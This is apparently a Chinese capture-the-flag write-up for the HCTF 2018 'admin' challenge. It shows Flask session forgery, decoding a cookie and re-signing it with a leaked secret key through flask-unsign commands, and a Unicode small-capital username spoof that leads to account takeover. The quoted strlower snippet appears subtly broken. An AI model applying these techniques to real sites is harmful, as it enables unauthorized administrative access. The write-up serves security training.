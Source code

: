 # \[HCTF 2018]admin

## \[HCTF 2018]admin

## 考点

* flask session伪造
* Unicode欺骗

## wp

### 第一种做法

注册登录后，在change password处给了源码

![](<../../.gitbook/assets/image (1) (1) (1).png>)

打开可以看到是flask的源码，结合题目，可以判断要伪造admin。在config.py中找到`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

然后就可以使用flask-unsign了

```
flask-unsign --decode --cookie .eJxFkMFuwjAQRH-l2jOH2JALEhfkYgVpbYXaidYXREMgcWwqB VAhiH9vWlXtHHekNzvzgO2hr88NzC_9tZ7Att3D_AEv7zAHjJZpaVPihUeJXAmb4rDqXMwTNaiA0t50uYlkcEa-mpIJgcqicRJTMlVCZt05gwyFa5V85WhyjkPFtVAN-ow5UbTKuKgGGu_rgGLjnbQM_apDs_QU6Y5-GXDIUhSrTvFsOmbftQhB-cIrmTEa8k803QKeE6jO_WF7-ejq03-FEm8Uv-NHVDm-I3JGPEtVtAmaTaPFPmhxnCpTzbRARiUyly9-cG3cHes_EpXszf46p10cDdiNgglcz3X_MxuwBJ5fW9tqTg.YkqrwA.DOP8oMc0Qa4fnCrwx4twEYRYRvY
```

得到的内容为

```
{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}
```

在用`SECRET_KEY`重新加密

```
flask-unsign --sign --cookie "{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}" --secret 'ckj123'
```

得到session，再用这个session访问index即可

```
.eJxFkF9rwjAUxb_KuM8-NNG-CL5IZqhwE-qSlpsXcbXapomDqkwrfvd1Y2yv58Dv_HnA9tDX5wbml_5aT2Db7mH-gJd3mANGy7S0KfHCo0SuhE1xWHUu5okaVEBpb7rcRDI4I19NyYRAZdE4iSmZKiGz7pxBhsK1Sr5yNDnHoeJaqAZ9xpwoWmVcVAON-jqg2HgnLUO_6tAsPUW6o18GHLIUxapTPJuO2XctQlC-8EpmjIb8E023gOcEqnN_2F4-uvr0P6HEG8Xv-BFVjnVEzohnqYo2QbNptNgHLY5TZaqZFsioRObyxQ-ujbtj_Ueikr3ZX-e0i6MBu31sTzCB67nuf34DlsDzC8rTatM.YkqtdA.cL66rcW3NKmN-aZXI_13u1zyH8g
```

### 第二种做法

使用Unicode欺骗。本题在获取参数时使用了自定义的strlower函数，nodeprep.prepare对应的库为[https://github.com/twisted/twisted](https://github.com/twisted/twisted)

```python
def strlower(username):
    pytusername = nodeprep.prepare(username)
    return username
```

nodeprep.prepare函数会把[Latin Letter Small Capital](https://unicode-table.com/en/1D00/)先转为大写再转为小写，即

```
ᴀ -> A -> a
```

那就可以先注册ᴀdmin，再修改密码，再以admin身份登录

## 小结

1. [一题三解之2018HCTF admin](https://www.anquanke.com/post/id/16408)
2. [从一道题深入mysql字符集与比对方法collation](https://skysec.top/2018/03/21/%E4%BB%8E%E4%B8%80%E9%81%93%E9%A2%98%E6%B7%B1%E5%85%A5mysql%E5%AD%97%E7%AC%A6%E9%9B%86%E4%B8%8E%E6%AF%94%E5%AF%B9%E6%96%B9%E6%B3%95collation/)
